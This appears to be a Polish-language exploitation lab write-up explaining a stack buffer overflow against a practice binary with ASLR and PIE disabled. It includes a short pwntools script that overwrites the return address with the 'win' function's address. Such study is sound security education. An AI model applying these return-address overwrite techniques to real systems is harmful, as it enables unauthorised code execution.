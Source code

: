 ### a) NO ASLR & NO PIE

--------------
PLIKI:
1. `vuln.c`
2. `vuln-1.o`
3. `exploit-1.py`
-------------

Jako że ASLR oraz PIE są wyłączone, adres funkcji `win` jest stały. Oznacza to, że adres mogę pobrać bezpośrednio z `gdb`. Wówczas exploit to podanie odpowiedniego paddingu oraz nadpisanie adresu powrotu adresem funkcji `win`.


![](pictures/1_1_win_addres.png)


Kod prostego exploitu znajduje się poniżej.

```python=
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-1.o')

send = b"A" * 28 + p32(0x08049192)

p.sendline(b"")

p.sendline(send)

p.interactive()
```
